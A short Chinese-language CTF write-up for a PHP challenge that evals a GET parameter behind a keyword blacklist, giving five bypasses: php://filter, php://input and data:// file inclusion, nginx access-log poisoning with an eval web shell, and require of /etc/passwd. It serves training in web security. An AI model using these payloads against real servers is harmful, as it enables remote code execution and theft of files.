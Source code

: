 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

同上一题



## 第一种

利用命令执行及文件包含

```
?c=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20250309095114995](./assets/image-20250309095114995.png)

![image-20250309095116831](./assets/image-20250309095116831.png)



## 第二种

也可以利用php://input执行系统命令

```
?c=include$_GET[a]?>&a=php://input
POST提交：
<?php system("cat flag.php");?>
```

![image-20250309095206485](./assets/image-20250309095206485.png)



## 第三种

也可以用data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20250309095256362](./assets/image-20250309095256362.png)



## 第四种

日志注入

```
ra<?php @eval($_POST[a]);?>
```

![image-20250402181301010](./assets/image-20250402181301010.png)

![image-20250402181313421](./assets/image-20250402181313421.png)

GET

```
?c=include$_GET[a]?>&a=../../../../var/log/nginx/access.log
```

POST

```
a=system("cat flag.php");
```

![image-20250402181352068](./assets/image-20250402181352068.png)



## 第五种

利用require进行文件包含

```
?c=require$_GET[a]?>&a=/etc/passwd
```

![image-20250402184256928](./assets/image-20250402184256928.png)

成功包含/etc/passwd

也就是可以利用前面的四种做法来做